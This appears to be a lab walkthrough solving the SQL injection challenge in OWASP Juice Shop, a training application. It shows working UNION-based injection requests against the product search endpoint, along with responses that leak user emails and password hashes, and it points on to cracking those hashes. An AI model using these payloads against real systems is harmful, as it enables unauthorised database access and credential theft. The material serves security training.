 # SQL Injection Solution



Use this to validate that all products can be returned, including deleted products.
```
GET /rest/products/search?q=dud'))OR+1+=+1--
```

Verifies a UNION clause can be used to exfiltrate data.
```
GET /rest/products/search?q=dud'))+UNION--
```

Note that the responses from Juice Shop have nine values.

``` json
{
  "status": "success",
  "data": [
    {
      "id": 9,
      "name": "OWASP SSL Advanced Forensic Tool (O-Saft)",
      "description": "O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"https://www.owasp.org/index.php/O-Saft\" target=\"_blank\">More...</a>",
      "price": 0.01,
      "deluxePrice": 0.01,
      "image": "orange_juice.jpg",
      "createdAt": "2024-03-21 00:39:44.404 +00:00",
      "updatedAt": "2024-03-21 00:39:44.404 +00:00",
      "deletedAt": null
    }
  ]
}
```

Union the request with the Users table and columns likely to exist in a Users table.

```
GET /rest/products/search?q=test'))%20UNION%20SELECT%20id,email,password,username,'5','6','7','8','9'%20FROM%20Users--
```

This returns user accounts.

``` json
{
  "status": "success",
  "data": [
    {
      "id": 1,
      "name": "admin@juice-sh.op",
      "description": "0192023a7bbd73250516f069df18b500",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 2,
      "name": "jim@juice-sh.op",
      "description": "e541ca7ecf72b8d1286474fc613e5e45",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 3,
      "name": "bender@juice-sh.op",
      "description": "0c36e517e3fa95aabf1bbffc6744a4ef",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 4,
      "name": "bjoern.kimminich@gmail.com",
      "description": "6edd9d726cbdc873c539e41ae8757b8c",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    }
  ]
}
```
Guessing other columns yields success.

```
GET /rest/products/search?q=juice'))%20UNION%20SELECT%20id,email,password,username,createdAt,updatedAt,isActive,role,'9'%20FROM%20Users--
```

Now that the admin, and other hashed passwords are exfiltrated, they can can be cracked. Proceed to [Cracking Passwords](cracking-passwords.md).